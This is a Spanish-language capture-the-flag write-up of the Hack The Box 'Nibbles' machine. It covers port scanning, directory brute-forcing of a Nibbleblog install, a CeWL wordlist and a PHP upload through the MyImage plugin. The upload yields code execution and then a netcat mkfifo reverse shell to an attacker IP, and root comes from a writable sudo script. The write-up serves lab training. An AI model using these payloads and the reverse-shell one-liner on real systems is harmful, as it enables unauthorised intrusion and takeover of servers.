 ```yaml
---
description: '✍️ Autor: Hack The Box🔍 Dificultad: Fácil  📅 Fecha de creación: 13/01/2018'
---
```


# Nibbles

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.129.12.162
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.12.162 
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.129.12.162
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos salga un mensaje.\
![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Revisamos el código por si hay alguna información relevante.\


<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos muestra un directorio por lo que indagaremos ahí.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://10.129.12.162/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hay dos archivos interesantes como `admin.php` y `README`.

```bash
curl http://10.129.12.162/nibbleblog/README
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado que la versión **4.0.3** está en uso, lo que sugiere que es probable que sea vulnerable al módulo de **Metasploit** (aunque podría tratarse de una página antigua del README). No observamos nada más relevante. Ahora, revisemos la página de inicio de sesión del portal de administración.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-07 095935.png" alt=""><figcaption></figcaption></figure>

Para usar el **exploit** mencionado, necesitaremos credenciales de administrador válidas. Probamos técnicas de omisión de autenticación y combinaciones comunes como **admin** y **admin**, sin éxito. Hay una opción para restablecer la contraseña, pero da un error de correo. Además, demasiados intentos rápidos activan un bloqueo con el mensaje **"Nibbleblog security error - Blacklist protection"**.

Volvamos a nuestros resultados de fuerza bruta en el directorio. Los códigos **200** muestran páginas accesibles, los **403** indican acceso prohibido y el **301** es una redirección permanente. Navegamos a **nibbleblog/themes/** y vemos que el listado de directorios está habilitado.

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al navegar a **nibbleblog/content**, encontramos subdirectorios interesantes: public, private y tmp. Explorando un poco, encontramos un archivo **users.xml** que confirma que el nombre de usuario es **admin**. También muestra direcciones IP en la lista negra. Podemos solicitar este archivo con **cURL** y formatear la salida **XML** usando **xmllint**.

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Confirmamos que **admin** es el usuario.

No hay otros puertos abiertos y no encontramos más directorios. Podemos confirmarlo realizando fuerza bruta adicional en directorios contra la raíz de la aplicación web.

```bash
gobuster dir -u http://10.129.12.162/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al revisar nuevamente todos los directorios expuestos, encontramos un archivo **config.xml**.

```bash
curl -s http://10.129.12.162/nibbleblog/content/private/config.xml | xmllint --format -
```

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al revisar el archivo, esperamos encontrar contraseñas, pero no obtenemos resultados. Sin embargo, vemos dos menciones de "**nibbles**" en el título del sitio y en la dirección de correo de notificación. Este también es el nombre de la máquina.&#x20;

Al realizar cracking de contraseñas offline con una herramienta como **Hashcat** o al intentar adivinar una contraseña, es importante considerar toda la información disponible. No es raro descifrar una contraseña (como la de la red inalámbrica de una empresa) usando una lista de palabras generada al rastrear su sitio web con una herramienta como **CeWL**.

```bash
cewl http://10.129.12.162/nibbleblog -w wordlist.txt
```

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Intentemos usar el plugin **MyImage** para cargar un fragmento de código **PHP** en lugar de una imagen. El siguiente fragmento se puede usar para probar la ejecución de código.

```bash
<?php system('id'); ?>
```

Ahora tenemos que averiguar dónde se subió el archivo si la carga fue exitosa. Volviendo a los resultados de fuerza bruta en los directorios, recordamos el directorio `/content`. Dentro de este, hay un directorio `plugins` y otro subdirectorio llamado `my_image`. La ruta completa es `http://<host>/nibbleblog/content/private/plugins/my_image/`. En este directorio, vemos dos archivos, `db.xml` e `image.php`, con una fecha de última modificación reciente, ¡lo que significa que nuestra carga fue exitosa! Ahora vamos a verificar si tenemos ejecución de comandos.

```bash
curl http://10.129.12.162/nibbleblog/content/private/plugins/my_image/image.php
```

<figure><img src="../../.gitbook/assets/image (21) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Parece que hemos obtenido ejecución remota de código en el servidor web, y el servidor Apache se está ejecutando en el contexto del usuario `nibbler`. Vamos a modificar nuestro archivo PHP para obtener una shell inversa y comenzar a explorar el servidor.

Vamos a editar nuestro archivo PHP local y subirlo nuevamente. Este comando debería proporcionarnos una shell inversa. Como se mencionó anteriormente en el Módulo, existen muchas hojas de trucos para shells inversas. Algunas muy buenas son [PayloadAllTheThings ](https://github.com/swisskyrepo/PayloadsAllTheThings)entre otras.

Utilicemos el siguiente one-liner de Bash para la shell inversa y añádelo a nuestro script PHP.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.47 443 >/tmp/f"); ?>
```

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Pinchamos en el fichero image.php.

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos Python3, lo cual nos permite obtener una shell más amigable escribiendo `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Al navegar a `/home/nibbler`, encontramos la bandera `user.txt` así como un archivo zip llamado `personal.zip`.

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si accedemos a esa ruta, veremos que no existe. Por lo tanto, necesitaremos crear el directorio y el archivo:

```bash
cd /home/nibbler
mkdir -p personal/stuff
cd personal/stuff
echo "/bin/bash" > monitor.sh
chmod +x monitor.sh
sudo ./monitor.sh
```

Con estos pasos, obtendremos acceso root. Luego, al ir a `/root/root.txt`, podremos ver la bandera ROOT.

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
